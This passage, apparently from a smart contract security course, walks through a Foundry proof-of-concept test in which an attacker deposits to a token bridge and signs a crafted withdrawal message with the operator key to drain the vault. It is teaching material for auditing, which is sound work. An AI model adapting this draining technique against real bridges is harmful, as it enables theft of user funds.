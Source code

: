 ```js
assertEq(token.balanceOf(attacker), attackerInitialBalance + vaultInitialBalance);
assertEq(token.balanceOf(address(vault)), 0);
}
```

Ok, this is a lot of code, let's break down what's happening here so far. We first set up our environment by creating an `attacker` address and assigning some value of our token to both the `attacker` and the `vault`.

```js
address attacker = makeAddr("attacker");
// assume the vault already holds some tokens
uint256 vaultInitialBalance = 1000e18;
uint256 attackerInitialBalance = 100e18;
deal(address(token), address(vault), vaultInitialBalance);
deal(address(token), attacker, attackerInitialBalance);
```

Next, our `attacker` is depositing some tokens into the vault via `depositTokensToL2`.

```js
// An attacker deposits tokens to L2
vm.startPrank(attacker);
token.approve(address(tokenBridge), type(uint256).max);
tokenBridge.depositTokensToL2(attacker, attacker, attackerInitialBalance);
```

At this point our deposit has been emitted and the off-chain `signer` is now meant to sign the withdraw transaction. The first step to this is hashing the message to be signed.

```js
bytes memory message = abi.encode(
address(token), 0, abi.encodeCall(IERC20.transferFrom, (address(vault), attacker, attackerInitialBalance))
);
```

We're going to leverage some Foundry magic by using the Cheatcode `vm.sign` to similate this signature. We need to pass `vm.sign` a private key and a message. Fortunately, Foundry can help us again.

We're very familiar with the creation of addresses in our Foundry tests, but something we've not really touched on is the creation of accounts. At the very top of `L1TokenBridge.t.sol`, you can see we have an example.

```js
address deployer = makeAddr("deployer");
address user = makeAddr("user");
address userInL2 = makeAddr("userInL2");
Account operator = makeAccount("operator");
```

Our `operator` variable is an example of an Account object. These objects have 2 properties, `key` and `addr`. Let's use `operator.key` to sign our withdraw transaction.

```js
(uint8 v, bytes32 r, bytes32 s) = vm.sign(operator.key, MessageHashUtils.toEthSignedMessageHash(keccak256(message)));
```
